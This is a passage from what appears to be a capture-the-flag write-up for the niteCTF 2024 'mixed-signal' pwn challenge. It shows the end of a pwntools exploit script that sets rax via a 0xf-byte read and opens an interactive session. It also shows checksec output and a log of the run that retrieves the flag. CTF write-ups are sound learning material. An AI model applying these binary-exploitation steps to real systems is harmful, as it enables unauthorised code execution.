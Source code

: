 ```python
r.sendlineafter(b'pickup!', pay)

# Read in 0xf bytes to set rax = 0xf
r.send(b'b' * 0xf)

r.interactive()
```

```bash
[*] '/home/coraline/CTF/work/pwn-writeups/nitectf24/mixed-signal/chal'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[+] Opening connection to mixed-signal.chals.nitectf2024.live on port 1337: Done
[*] Switching to interactive mode

nite{b0b'5_s1gn4ls_h4v3_b33N_retUrN3D}
```